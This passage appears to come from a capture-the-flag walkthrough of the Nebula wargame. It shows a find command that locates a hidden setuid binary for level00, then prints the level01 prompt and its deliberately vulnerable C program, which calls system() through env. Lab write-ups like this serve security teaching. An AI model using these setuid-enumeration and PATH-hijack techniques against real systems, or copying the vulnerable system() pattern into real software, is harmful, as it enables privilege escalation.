 Did you get that? If not, let's just try it, what could go wrong?

Logged in as `level00`, running the command `find / \( -type f -user
flag00 -fprintf /tmp/suids "%p \n" \)` shows a whole bunch of
error-messages telling us that we don't have permission to read a
bunch of files, that's OK though, since we just shove the results we
care about into `/tmp/suids`.

Next, we can simply look at our results, located in `/tmp/suids` & go from there.

~~~
$ cat /tmp/suids
/bin/.../flag00
/home/flag00/.bash_logout
/home/flag00/.bashrc
/home/flag00/.profile
/rofs/bin/.../flag00
~~~

Ahh yes, the "..."-directory within `/bin`, looks weird right? Let's run it and rejoice that we successfully completed the challenge!

~~~
$ ls -la /bin/.../flag00
-rwsr-x--- 1 flag00 level00 7358 2011-11-20 21:22 flag00*
$ /bin/.../flag00
Congrats, now run getflag to get your flag!
$ getflag
You have successfully executed getflag on target account
~~~

* * *

# [level01](https://exploit-exercises.com/nebula/level01/)

>## About
>
>There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?
>
>To do this level, log in as the level01 account with the password level01. Files for this level can be found in /home/flag01.

This level provides source code of file `level1.c`, listed below

{% highlight c %}
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");
}
{% endhighlight %}
